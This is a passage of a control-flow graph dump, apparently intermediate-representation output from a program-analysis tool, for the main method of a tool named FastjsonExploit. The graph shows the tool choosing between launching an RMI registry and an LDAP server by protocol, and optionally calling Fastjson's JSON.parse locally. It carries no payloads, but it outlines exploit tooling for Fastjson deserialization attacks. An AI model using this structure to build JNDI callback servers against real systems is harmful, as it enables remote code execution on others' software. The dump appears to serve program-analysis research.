virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 14:
[preds: 13 ] [succs: 15 23 ]
$r21 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
"->"Block 15:
[preds: 14 ] [succs: 16 23 ]
staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r21);
";
    "Block 14:
[preds: 13 ] [succs: 15 23 ]
$r21 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 15:
[preds: 14 ] [succs: 16 23 ]
staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r21);
"->"Block 16:
[preds: 15 ] [succs: 22 23 ]
goto [?= (branch)];
";
    "Block 15:
[preds: 14 ] [succs: 16 23 ]
staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r21);
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 16:
[preds: 15 ] [succs: 22 23 ]
goto [?= (branch)];
"->"Block 22:
[preds: 16 19 21 ] [succs: 24 ]
goto [?= $i3 = lengthof r0];
";
    "Block 16:
[preds: 15 ] [succs: 22 23 ]
goto [?= (branch)];
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 17:
[preds: 13 ] [succs: 18 23 ]
$r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"->"Block 18:
[preds: 17 ] [succs: 19 23 ]
$z2 = virtualinvoke $r16.<java.lang.String: boolean equals(java.lang.Object)>(\"ldap\");
";
    "Block 17:
[preds: 13 ] [succs: 18 23 ]
$r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 18:
[preds: 17 ] [succs: 19 23 ]
$z2 = virtualinvoke $r16.<java.lang.String: boolean equals(java.lang.Object)>(\"ldap\");
"->"Block 19:
[preds: 18 ] [succs: 20 22 23 ]
if $z2 == 0 goto (branch);
";
    "Block 18:
[preds: 17 ] [succs: 19 23 ]
$z2 = virtualinvoke $r16.<java.lang.String: boolean equals(java.lang.Object)>(\"ldap\");
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 19:
[preds: 18 ] [succs: 20 22 23 ]
if $z2 == 0 goto (branch);
"->"Block 20:
[preds: 19 ] [succs: 21 23 ]
$r20 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
";
    "Block 19:
[preds: 18 ] [succs: 20 22 23 ]
if $z2 == 0 goto (branch);
"->"Block 22:
[preds: 16 19 21 ] [succs: 24 ]
goto [?= $i3 = lengthof r0];
";
    "Block 19:
[preds: 18 ] [succs: 20 22 23 ]
if $z2 == 0 goto (branch);
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 20:
[preds: 19 ] [succs: 21 23 ]
$r20 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
"->"Block 21:
[preds: 20 ] [succs: 22 23 ]
staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r20);
";
    "Block 20:
[preds: 19 ] [succs: 21 23 ]
$r20 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 21:
[preds: 20 ] [succs: 22 23 ]
staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r20);
"->"Block 22:
[preds: 16 19 21 ] [succs: 24 ]
goto [?= $i3 = lengthof r0];
";
    "Block 21:
[preds: 20 ] [succs: 22 23 ]
staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r20);
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 22:
[preds: 16 19 21 ] [succs: 24 ]
goto [?= $i3 = lengthof r0];
"->"Block 24:
[preds: 22 23 ] [succs: 25 27 ]
$i3 = lengthof r0;
if $i3 != 4 goto return;
";
    "Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
"->"Block 24:
[preds: 22 23 ] [succs: 25 27 ]
$i3 = lengthof r0;
if $i3 != 4 goto return;
";
    "Block 24:
[preds: 22 23 ] [succs: 25 27 ]
$i3 = lengthof r0;
if $i3 != 4 goto return;
"->"Block 25:
[preds: 24 ] [succs: 26 27 ]
$r17 = r0[3];
$z3 = virtualinvoke $r17.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
if $z3 == 0 goto return;
";
    "Block 24:
[preds: 22 23 ] [succs: 25 27 ]
$i3 = lengthof r0;
if $i3 != 4 goto return;
"->"Block 27:
[preds: 24 25 26 ] [succs: ]
return;
";
    "Block 25:
[preds: 24 ] [succs: 26 27 ]
$r17 = r0[3];
$z3 = virtualinvoke $r17.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
if $z3 == 0 goto return;
"->"Block 26:
[preds: 25 ] [succs: 27 ]
$r18 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
staticinvoke <com.alibaba.fastjson.JSON: java.lang.Object parse(java.lang.String)>(r27);
";
    "Block 25:
[preds: 24 ] [succs: 26 27 ]
$r17 = r0[3];
$z3 = virtualinvoke $r17.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
if $z3 == 0 goto return;
"->"Block 27:
[preds: 24 25 26 ] [succs: ]
return;
";
    "Block 26:
[preds: 25 ] [succs: 27 ]
$r18 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
staticinvoke <com.alibaba.fastjson.JSON: java.lang.Object parse(java.lang.String)>(r27);
"->"Block 27:
[preds: 24 25 26 ] [succs: ]
return;
";
}
